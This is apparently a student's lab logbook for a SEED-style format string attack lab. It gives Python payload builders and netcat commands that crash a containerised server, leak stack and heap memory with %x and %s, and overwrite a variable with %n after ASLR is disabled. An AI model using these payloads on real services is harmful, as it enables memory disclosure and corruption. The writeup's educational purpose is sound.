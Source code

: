 # Seedlab Week #6 (Format String Attack Lab)

# Question 1

### Initial setup

1. Run `sudo sysctl -w kernel.randomize_va_space=0` to disable address randomization.
2. Compile the program using `make && make install`.
3. Start the server in a new terminal by running `docker-compose build` followed by `docker-compose up` in the `/ftm-containers` folder. This setup allows us to view the server's output.

### Task 1: Crashing the Program

The goal of this task is to crash the program by exploiting a format string vulnerability.

Common format string parameters used in this lab:

| Parameters | Output                                                                  |
| ---------- | ----------------------------------------------------------------------- |
| `%x`       | Reads a value from the stack.                                           |
| `%s`       | Reads a string from the process's memory.                               |
| `%n`       | Writes the number of characters printed so far to an address in memory. |

To crash the program, we sent a series of `%s` format specifiers. The server interprets these as pointers to strings, and and at some point tries to access an invalid memory address, causing a crash. We executed the following command: `echo %s%s%s%s%s | nc 10.9.0.5 9090` and then pressed `Ctrl + C`.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task1.png"/>
</p>

As shown in the output, the line `(^_^)(^_^) Returned properly (^_^)(^_^)` is missing, indicating that the program crashed.

<!-- > **Note** in this task we could send just one `%s` because the first value in a stack is `0x11223344` ... Sera que da para esplicar porque isso nao endereso valido? -->

### Task 2: Printing Out the Server Program's Memory

#### Task 2.A: Stack Data.

In this task, we aimed to print data from the stack and determine how many `%x` specifiers are needed to print the first 4 bytes of our input.

To achieve this, we used a Python script (`build_string.py`) to create a payload:

```py
import sys

s = b"AAAA" + b".%x"*100

with open('badfile', 'wb') as f:
  f.write(s)
```

The payload starts with `AAAA` followed by 100 `%x` specifiers, separated by dots for readability. And run `python3 build_string.py`; `cat badfile | nc 10.9.0.5 9090` and pressed `Ctrl + C`.

The output on the server:

<!-- se calhar por em vermelho o 41414141 -->
<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task2a.png"/>
</p>


We observed that the value `41414141` (hexadecimal representation of `AAAA`) appeared at the 64th position (counting the number of dots). This indicates that 64 `%x` specifiers are needed to print our 4 bytes from the process memory.

#### Task 2.B: Heap Data

In this attack the objective was to read a string from a specific address printed by the server:

```
server-10.9.0.5 | The secret message's address:  0x080b4008
```
Steps to achieve this:

1. Place the address of the secret message (`0x080b4008`) at the beginning of the payload.
2. Use 63 repetitions of `%x` to skip 63 address positions on the stack (based on the previous task, where 63 * 4 bytes precede the bytes we wrote).
3. Add a single `%s` to instruct the server to read a string from the stack, which will be the address we placed in the step 1.

The final `build_string.py` code:

```py
import sys

address = 0x080b4008
address_in_bytes = (address).to_bytes(4,byteorder='little')

payload = address_in_bytes + b"%x"*63 + b"%s"

with open('badfile', 'wb') as f:
  f.write(payload)
```

We ran `python3 build_string.py`, then sent `echo hello` to verify the string's address and then used our `badfile` to read the string (`cat badfile | nc 10.9.0.5 9090`).

With that, we received the following output:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task2b.png"/>
</p>

At the end of the output, we saw the string `"A secret message"`, confirming that we successfully read the message from the heap.

### Task 3: Modifying the Server Program's Memory

#### Task 3.A: Change the value to a different value.

In this task, our objective was to modify the value of a specific variable, `target`, in the server's memory. The original value of this variable was `0x11223344`, as displayed in the server's output, and its address in memory was `0x080e5068`.

To accomplish this, we used the `%n` format specifier, which writes the number of characters printed so far to a specified memory address.

The final `build_string.py` code:

```py
import sys

address = 0x080e5068
address_in_bytes = (address).to_bytes(4,byteorder='little')

payload = address_in_bytes + b"%x"*63 + b"%n"

with open('badfile', 'wb') as f:
  f.write(payload)
```

We placed the address of our target variable at the start of the payload, then skipped 63 values from the stack, and added `%n` to instruct the program to write the number of printed values to the address on the stack, which will be our specified address (`0x080e5068`).

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task3a.png"/>
</p>

In the server output, we can see `The target variable's value (before): 0x11223344` and `The target variable's value (after): 0x000000ee`. This confirms that we successfully modified the target variable's value from `0x11223344` to `0x000000ee`.

#### Task 3.B

Based on the previous task which already overwrites the target variable, we know have to find a way to control which value is placed in that memory address. More specifically, we have to write the value `0x5000` into that memory address.

For this, we will still use the `%n` specifier to write the value in the designated address, but we will also use the last `%x` to control the number of characters printed.

```python
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

n = 0x5000 - 4 - 62 * 8
s = "%.8x" * 62 + f"%.{n}x" + "%n"

address = 0x080e5068
content[0:4] = (address).to_bytes(4,byteorder='little')

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

By doing this, we start by writing the designated address we want to overwrite in the start of the buffer. After this, the printf will start by executing the `%.8x` which will print 8 characters and advance 4 bytes in stack memory, a total of 62 times. Then, it will execute the `%.{n}x` which will print the n characters and advance one more address in memory. Finally, it will write the value of printed chars (`0x5000`) to the address initially defined (`0x080e5068`), using the `%n` format specifier.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task3b.png"/>
</p>

In the server output, we can see `The target variable's value (before): 0x11223344` and `The target variable's value (after): 0x0005000`. This confirms that we successfully modified the target variable's value from `0x11223344` to `0x00005000`.

# Question 2

The attacks we performed along the tasks are caused by the weakness CWE-134 "Use of Externally-Controlled Format String". According to [CWE Mitre](https://cwe.mitre.org/data/definitions/134.html), this weakness is observed when a function accepts a format string, originated from an external source (e.g. user input), as its argument.

Since a user string can be stored in the heap, just as in the stack, we can also observe a vulnerability if the format string is allocated dynamically. For example, we can use something similar to the exploit on task 2.A to read information from the stack, which can include sensitive data.

However, for running the attacks we used on this guide, we need to store the address in memory we want to read/write to in a position that can be interpreted by `printf` as the address of one of its arguments. This means that the value needs to be stored on the stack, so it cannot be influenced by information of the format string, making all the attacks we performed infeasible. It can only be done by using non-deterministic solutions, such as using pre-existing stack values.

